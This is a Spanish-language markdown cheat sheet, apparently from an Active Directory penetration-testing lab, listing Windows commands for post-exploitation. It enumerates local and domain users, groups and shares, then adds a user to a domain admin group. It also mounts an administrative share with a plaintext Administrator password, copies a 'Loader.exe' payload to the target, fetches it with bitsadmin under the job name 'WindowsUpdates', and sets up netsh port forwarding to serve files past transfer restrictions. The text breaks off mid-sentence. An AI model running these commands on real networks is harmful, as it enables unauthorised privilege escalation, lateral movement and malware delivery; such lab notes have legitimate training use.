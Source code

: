 # Miscelánea

### Usuarios y grupos

```
### Consultar los usuarios y grupos locales
net user
net localgroup

### Consultar los usuarios de dominio
net user /domain
net group /domain
```

```
### Agregar un usuario a un grupo de dominio
net group "machineadmins" studentuser76 /add /domain

### Verificar usuarios pertenecientes al grupo de dominio 
net group "machineadmins" /domain
net group "<group_name>" /domain
```
### Recursos compartidos

```
### Listar Recursos compartidos
net share

### Listar recursos compartido de un equipo
net view \\US-HelpDesk /ALL

### Crear Recurso Compartido para enviar binarios
C:\AD\Tools>net use x: \\us-mailmgmt\C$\Users\Public /user:us-mailmgmt\Administrator ;+NOFY!&+O36sb
C:\AD\Tools>echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
C:\AD\Tools>net use x: /d

### Transferir archivo Loader.exe mediante bitsadmin
bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Users\\Public\\Loader2.exe
```
### Netsh para Port Forward

El siguiente comando redirige todas las conexiones entrantes en el puerto 8080 a la dirección IP 192.168.100.76 en el puerto 80. 

```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.76
```

Esto puede ser útil en caso existan restricciones para la transferencia de archivo. El comando anterior se puede usar en conjunto con el siguiente, ejecutando así el archivo ubicado en el puerto 80 del host 192.168.100.76:
